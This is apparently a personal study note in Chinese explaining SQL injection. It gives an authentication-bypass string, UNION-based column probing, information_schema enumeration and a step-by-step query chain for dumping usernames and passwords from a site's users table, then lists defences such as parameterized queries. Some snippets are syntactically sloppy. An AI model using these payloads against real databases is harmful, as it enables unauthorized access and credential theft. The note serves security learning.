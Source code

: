 ```yaml
---
title: sql-injection
date: 2023-03-12 19:20:48
tags: network
katex: true
---
```


### SQL 基本語法
```
SELECT 欄位 FROM 表格
SELECT 欄位 FROM 表格 UNION 1,2,3,...
```

#### Authrization Bypass
### PHP
```php
$user = $_GET[key=value]
$sql = "SELECT * FROM db WHERE USER = ' ' or 1=1 --"(True) 
```
在登陸介面 name 輸入 `' or 1=1 --` , password隨便輸
|符號|功能|
|--|--|
| '|stop|


```
?catogority=.... 這是向DB 輸 SQL指令
?catogority=' or 1=1 -- 使得DB輸出所為true東西
```

### Union SQL injection
確認有幾個欄位
```PHP
UNION SELECT NULL --
UNION SELECT NULL NULL --
UNION SELECT NULL NULL NULL --
```
確定是不是字串
```PHP
UNION SELECT 'a' NULL NULL
UNION SELECT NULL 'a' NULL 
UNION SELECT NULL NULL 'a'
```
查看有什麼資料
```
information_schema.schemata
information_schema.tables
information_schema.columns
```
EX: 取得某網站管理員帳號
```
'UNION SELECT 'a', 'a' --
'UNION SELECT schema_name, schema_name FROM information_schema.schemata --
'UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_schema = 'public' --
'UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' --
'UNION SELECT username, password FROM public.users --
```

### 預防
1. 黑名單
  拒絕含有SQL關鍵字輸入 (駭客總有方法進入, ex: 正則化...)
2. 白名單
   只允許特定字加入SQL
3. 參數化查詢
   最有效防止
   先編譯完再將查詢參數填入(參數不會被當作執行語法)

